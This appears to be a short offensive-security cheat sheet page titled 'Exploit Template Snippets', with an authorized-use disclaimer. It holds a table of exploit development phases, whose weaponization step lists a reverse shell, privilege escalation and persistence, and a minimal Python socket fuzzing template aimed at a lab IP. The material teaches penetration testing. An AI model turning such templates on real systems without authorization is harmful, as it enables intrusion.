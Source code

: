 ```yaml
---
icon: gopuram
---
```


# Exploit Template Snippets

## **Exploit Template Snippets — Build, Fire, Pwn**

> ⚠️ For **educational and authorized use only.**\
> These templates are designed to help you understand exploit logic, structure, and automation — not for unauthorized testing.

***

### I. 🧩 Exploit Workflow Anatomy

| Phase                      | Action                                                |
| -------------------------- | ----------------------------------------------------- |
| **1. Enumeration**         | Identify service, port, version, input vector.        |
| **2. Fuzzing**             | Trigger crash with payload.                           |
| **3. Debugging**           | Attach debugger (gdb/Immunity).                       |
| **4. Exploit Development** | Build PoC (controlled crash → EIP control → RCE).     |
| **5. Weaponization**       | Add reverse shell, privilege escalation, persistence. |

***

### II. 🧠 Python Exploit Template — TCP / Socket PoC

```python
#!/usr/bin/env python3
import socket, sys, time

target = "10.10.10.5"
port = 1337

payload = b"A" * 100  # initial fuzz buffer

print(f"[+] Connecting to {target}:{port}")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))

print("[+] Sending payload...")
s.send(payload)
print("[+] Payload sent. Check target.")
s.close()
```
